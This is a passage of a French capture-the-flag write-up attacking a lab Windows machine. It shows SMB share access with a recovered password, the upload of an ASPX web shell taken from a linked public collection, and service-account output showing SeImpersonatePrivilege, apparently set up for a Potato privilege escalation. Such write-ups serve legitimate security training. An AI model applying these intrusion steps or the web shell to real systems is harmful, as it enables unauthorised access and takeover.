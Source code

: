 ```console
PS C:\> net use \\127.0.0.1\WEB /user:marcos SuperPassword
Se ha completado el comando correctamente.
```

Pour cet autre utilisateur, rebelote : le mot de passe est expiré, il faut effectuer la même manipulation.

### Patates pas fraiches

Avec cet autre compte on peut cette fois accéder au partage WEB qui sans surprise correspond à ce qui est servit sur le port 80.

```console
$ smbclient -U marcos -L //192.168.56.114
Password for [WORKGROUP\marcos]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Admin remota
        C$              Disk      Recurso predeterminado
        IPC$            IPC       IPC remota
        LOGS            Disk      
        WEB             Disk      
SMB1 disabled -- no workgroup available
```

J'ai d'abord uploadé un shell ASP mais quand j'y accédais, je recevais une erreur 404.

Finalement, j'ai pris un shell ASPX ici et il s'est avéré être très bien :

```
https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx
```

L'utilisateur qui fait tourner le service dispose du privilège `SeImpersonatePrivilege`.

```
INFORMACIàN DE USUARIO
----------------------

Nombre de usuario          SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


INFORMACIàN DE GRUPO
--------------------

Nombre de grupo                             Tipo               SID          Atributos                                                               
=========================================== ================== ============ ========================================================================
Etiqueta obligatoria\Nivel obligatorio alto Etiqueta           S-1-16-12288                                                                         
Todos                                       Grupo conocido     S-1-1-0      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios                            Alias              S-1-5-32-545 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\SERVICIO                       Grupo conocido     S-1-5-6      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
INICIO DE SESIàN EN LA CONSOLA              Grupo conocido     S-1-2-1      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Usuarios autentificados        Grupo conocido     S-1-5-11     Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Esta compa¤¡a                  Grupo conocido     S-1-5-15     Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
```